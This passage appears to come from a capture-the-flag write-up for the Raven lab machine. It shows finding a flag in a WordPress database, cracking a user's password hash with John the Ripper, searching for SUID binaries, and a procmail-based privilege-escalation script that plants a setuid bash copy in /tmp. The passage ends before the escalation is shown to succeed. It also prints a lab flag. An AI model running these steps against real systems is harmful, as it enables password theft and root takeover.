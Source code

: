 ```sql
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
```

### Flag 3 Discovery

Found flag3 as an uploaded image in WordPress:

```sql
mysql> select * from wp_posts;
# Found flag3 as attachment: http://raven.local/wordpress/wp-content/uploads/2018/11/flag3.png
```


<img width="1335" height="498" alt="image" src="https://github.com/user-attachments/assets/48f59917-8b77-432b-a1cb-e0091af61c43" />



**Flag 3**: `flag3{a0f568aa9de277887f37730d9b}`

### Password Cracking

```shellscript
# Cracking steven's password hash
echo '$P$B6X3H3ykawf2oHuPsbjQiih5iJXqad.' > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

# Result: LOLLOL1
```

## Privilege Escalation

### SUID Binary Analysis

```shellscript
find / -perm -4000 2> /dev/null
```

Key findings:

- `/usr/bin/procmail` (SUID root)
- `/sbin/mount.nfs` (SUID root)


### Method 1: Procmail SUID Exploitation

```shellscript
# Create malicious script
echo -e '#!/bin/bash\ncp /bin/bash /tmp/rootbash\nchmod +s /tmp/rootbash' > /tmp/rootme.sh
chmod +x /tmp/rootme.sh

# Create procmail configuration
echo -e ":0\n* ^X-Trigger: exploit\n|/tmp/rootme.sh" > /tmp/.procmailrc

# Trigger exploit
echo -e "X-Trigger: exploit\n\nhello" | /usr/bin/procmail -m /tmp/.procmailrc

# Check if SUID binary was created
ls -la /tmp/rootbash
# -rws--S--- 1 www-data www-data 1029624 Jul 11 16:05 rootbash
```
